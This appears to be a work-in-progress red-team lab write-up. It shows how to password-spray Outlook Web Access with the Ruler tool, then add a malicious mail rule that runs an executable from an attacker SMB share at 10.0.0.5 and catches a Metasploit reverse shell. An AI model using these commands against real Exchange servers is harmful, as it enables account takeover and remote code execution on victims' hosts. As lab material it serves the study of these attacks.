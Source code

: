 # Password Spraying Outlook Web Access: Remote Shell

{% hint style="warning" %}
Work In Progress
{% endhint %}

## Context

This lab looks at an attacking technique called password spraying as well as abusing Outlook Web Application by exploiting mail rules to get a remote shell using a tool called `Ruler`.

## Defininitions

**Password spraying** is an attacking technique and a form of password brute-forcing. In password spraying, an attacker cycles through a list of possible usernames \(found using OSINT techniques against a target company or other means\) with a couple of most common passwords. In comparison, a traditional bruteforce works by selecting a username from the list and trying all the passwords in the wordlist against that username. Once all passwords are exhausted, another username is chosen from the list and the process repeats.

Password spraying could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| ben | Winter2018 |
| ... | Winter2018 |
| john | December2018! |
| ben | December2018! |
| ... | December2018! |

Standard password bruteforcing could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| john | Winter2018! |
| john | Password1 |
| ben | Winter2018 |
| ben | Winter2018! |
| ben | Password1 |

## Execution

### Password Spraying

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-23-15-09-03.png)

![](../.gitbook/assets/peek-2018-12-23-15-07.gif)

The above shows that password spray was successful against the user `spotless` with a weak password `123456`.

Note, that if you are attempting to replicate this technique in your own labs, you may need to update your /etc/hosts to point to your Exchange server:

![](../.gitbook/assets/screenshot-from-2018-12-23-15-08-18.png)

### Getting a Shell via Malicious Email Rule

If password spray against Exchange server was successful and you have a set of compromised credentials, you can leverage Ruler to create a malicious email rule to gain remote code execution on the host that checks the email for which you have compromised the credentials during your spray.

The way it works is:

* 
```csharp
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```

![](../.gitbook/assets/screenshot-from-2018-12-23-17-15-36.png)

```text
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location "c:/windows/system32/calc.exe" --trigger "popashell" --name maliciousrule
```

![](../.gitbook/assets/screenshot-from-2018-12-23-17-19-17.png)

```csharp
smbserver.py tools /root/tools/
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit

```

Delete malicious email rule:

```text
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```

![](../.gitbook/assets/peek-2018-12-23-18-13.gif)

![](../.gitbook/assets/screenshot-from-2018-12-23-18-17-10.png)

